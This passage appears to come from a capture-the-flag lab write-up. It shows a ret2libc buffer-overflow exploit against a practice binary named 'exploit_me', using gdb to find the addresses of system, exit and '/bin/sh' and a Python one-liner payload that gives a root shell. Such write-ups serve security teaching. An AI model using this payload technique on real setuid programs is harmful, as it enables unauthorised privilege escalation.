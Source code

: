 The address of system is `0xb7e6b060`.

We should also find the address of `exit` to exit the program once the shell launched.

```
(gdb) print exit
$2 = {<text variable, no debug info>} 0xb7e5ebe0 <exit>
```
 The address of exit is `0xb7e5ebe0`.
 
 Now we need the address of the string "/bin.sh". To do so let's find the range of addresses were the libc is located and search for the string.

```
(gdb) info proc map
process 5030
Mapped address spaces:
        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000        0x0 /home/zaz/exploit_me
         0x8049000  0x804a000     0x1000        0x0 /home/zaz/exploit_me
        0xb7e2b000 0xb7e2c000     0x1000        0x0 
        0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
        0xb7fcf000 0xb7fd1000     0x2000   0x1a3000 /lib/i386-linux-gnu/libc-2.15.so
        0xb7fd1000 0xb7fd2000     0x1000   0x1a5000 /lib/i386-linux-gnu/libc-2.15.so
        0xb7fd2000 0xb7fd5000     0x3000        0x0 
        0xb7fdb000 0xb7fdd000     0x2000        0x0 
        0xb7fdd000 0xb7fde000     0x1000        0x0 [vdso]
        0xb7fde000 0xb7ffe000    0x20000        0x0 /lib/i386-linux-gnu/ld-2.15.so
        0xb7ffe000 0xb7fff000     0x1000    0x1f000 /lib/i386-linux-gnu/ld-2.15.so
        0xb7fff000 0xb8000000     0x1000    0x20000 /lib/i386-linux-gnu/ld-2.15.so
        0xbffdf000 0xc0000000    0x21000        0x0 [stack]
(gdb) find 0xb7e2c000,0xb7fd2000,"/bin/sh"
0xb7f8cc58
1 pattern found.

```
We find the address of "/bin/sh" which is `0xb7f8cc58`.

Let's craft our payload following this structure: 

```
A * 140 padding | system address | exit address | /bin/sh address

`python -c 'print("A" * 140 + "\x60\xb0\xe6\xb7" + "\xe0\xeb\xe5\xb7" + "\x58\xcc\xf8\xb7")'`
```

We run `exploit_me` with our payload as argument:

```
./exploit_me `python -c 'print("A" * 140 + "\x60\xb0\xe6\xb7" + "\xe0\xeb\xe5\xb7" + "\x58\xcc\xf8\xb7")'`
```

And we are root! (Prove it with `whoami`!)

### **Used tools**

